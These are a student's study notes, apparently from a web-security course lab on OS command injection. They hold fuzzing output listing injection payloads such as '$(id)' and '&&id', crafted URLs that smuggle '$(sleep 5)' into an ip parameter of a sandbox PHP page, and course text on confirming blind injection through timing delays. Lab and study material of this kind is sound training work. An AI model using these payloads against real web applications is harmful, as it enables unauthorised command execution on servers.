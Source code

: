 ```bash
000000005:   200        68 L     121 W      1175 Ch     "`id`"                                                                                          
000000002:   200        68 L     117 W      1113 Ch     "gus"                                                                                           
000000016:   200        68 L     121 W      1175 Ch     "`id`"                                                                                          
000000019:   200        68 L     121 W      1175 Ch     "$(id)"                                                                                         
000000011:   200        75 L     160 W      1421 Ch     "&id"                                                                                           
000000001:   200        75 L     160 W      1421 Ch     "http://ci-sandbox:80/php/blocklisted_exercise.php?ip=127.0.0.1"                                
000000010:   200        75 L     160 W      1422 Ch     "&&id"                                                                                          
000000017:   200        75 L     164 W      1483 Ch     "$(sleep 5)"                                                                                    
000000014:   200        75 L     164 W      1483 Ch     "`sleep 5`"
000000015:   200        75 L     164 W      1483 Ch     "`sleep 10`"                                                                                    
000000018:   200        75 L     164 W      1486 Ch     "$(sleep 10)"                                                                                                                             

Total time: 0
Processed Requests: 22
Filtered Requests: 10
Requests/sec.: 0
```
send a curl to test sleep
```bash
http://ci-sandbox/php/blocklisted_exercise.php?ip=127.0.0.1$(sleep%205)
http://ci-sandbox/php/blocklisted.php?ip=127.0.0.1$(sleep%205)
```
profit
![[Pasted image 20241030173535.png]]

#### 11.2.3. Blind OS Command Injection Bypass

Let's now continue into what _Blind OS Command Injection_. With blind OS command injection,[1](https://portal.offsec.com/courses/web-200-28380/learning/command-injection-35143/dealing-with-common-protections-35191/blind-os-command-injection-bypass-35148#fn-local_id_539-1) we will not receive immediate output confirming that our execution has succeeded.

Let's discuss ways of confirming that our command ran successfully when the application doesn't return any output from our injected command.

One way to do this is with a _sleep_ command. We can tell the target web server to sleep for an interval of time (say five seconds) and if we notice that after five seconds, the regular page content renders, then we have successfully identified that something is happening, and a blind command injection could be taking place. This means that any chained or extended commands would work even without observing their output.

Let's try out a blind command injection vulnerability in our sandbox application by attempting to run the id command.
